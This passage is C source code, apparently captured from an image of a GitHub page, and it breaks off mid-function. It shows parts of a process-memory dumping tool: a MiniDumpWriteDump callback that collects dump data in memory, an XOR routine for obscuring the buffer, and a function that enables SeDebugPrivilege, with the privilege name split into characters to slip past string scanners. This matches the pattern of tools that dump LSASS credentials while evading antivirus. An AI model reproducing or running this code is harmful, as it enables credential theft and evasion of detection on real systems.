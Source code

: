 ```c
		break;
	case IoWriteAllCallback:
		// Buffer holding the current chunk of dump data
		source = CallbackInput->Io.Buffer;
		
		// Calculate the memory address we need to copy the chunk of dump data to based on the current dump data offset
		destination = (LPVOID)((DWORD_PTR)dumpBuffer + (DWORD_PTR)CallbackInput->Io.Offset);
		
		// Size of the current chunk of dump data
		bufferSize = CallbackInput->Io.BufferBytes;

		// Copy the chunk data to the appropriate memory address of our allocated buffer
		RtlCopyMemory(destination, source, bufferSize);
		dumpSize += bufferSize; // Incremeant the total size of the dump with the current chunk size
		
		//printf("[+] Copied %i bytes to memory buffer\n", bufferSize);
		
		CallbackOutput->Status = S_OK;
		break;
	case IoFinishCallback:
		CallbackOutput->Status = S_OK;
		printf("[+] Copied %i bytes to memory buffer\n", dumpSize);
		break;
	}
	return TRUE;
}

// Simple xor routine on memory buffer
void XOR(char* data, int data_len, char* key, int key_len)
{
	int j = 0;
	for (int i = 0; i < data_len; i++) {
		if (j == key_len - 1)
			j = 0;
		data[i] = data[i] ^ key[j];
		j++;
	}
}

// Enable SeDebugPrivilige if not enabled already
BOOL SetDebugPrivilege() {
	HANDLE hToken = NULL;
	TOKEN_PRIVILEGES TokenPrivileges = { 0 };

	if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &hToken)) {
		printf("[-] Could not get current process token with TOKEN_ADJUST_PRIVILEGES\n");
		return FALSE;
	}

	TokenPrivileges.PrivilegeCount = 1;
	TokenPrivileges.Privileges[0].Attributes = TRUE ? SE_PRIVILEGE_ENABLED : 0;

	char sPriv[] = { 'S','e','D','e','b','u','g','P','r','i','v','i','l','e','g','e',0 };
	if (!LookupPrivilegeValueA(NULL, (LPCSTR)sPriv, &TokenPrivileges.Privileges[0].Luid)) {
		CloseHandle(hToken);
		printf("[-] No SeDebugPrivs. Make sure you are an admin\n");
		return FALSE;
	}

	if (!AdjustTokenPrivileges(hToken, FALSE, &TokenPrivileges, sizeof(TOKEN_PRIVILEGES), NULL, NULL)) {
```